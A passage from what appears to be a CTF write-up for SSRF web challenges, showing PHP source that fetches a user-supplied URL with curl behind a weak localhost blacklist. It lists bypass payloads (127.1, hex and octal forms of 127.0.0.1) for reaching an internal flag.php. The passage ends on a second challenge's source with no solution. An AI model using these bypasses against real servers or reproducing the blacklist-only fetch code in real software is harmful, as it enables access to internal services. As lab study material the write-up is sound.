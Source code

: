 ```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

直接绕过:

```
url=http://127.1/flag.php
url=http://0x7F.0.0.1/flag.php
url=http://0177.0.0.1/flag.php
```

## web354

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```
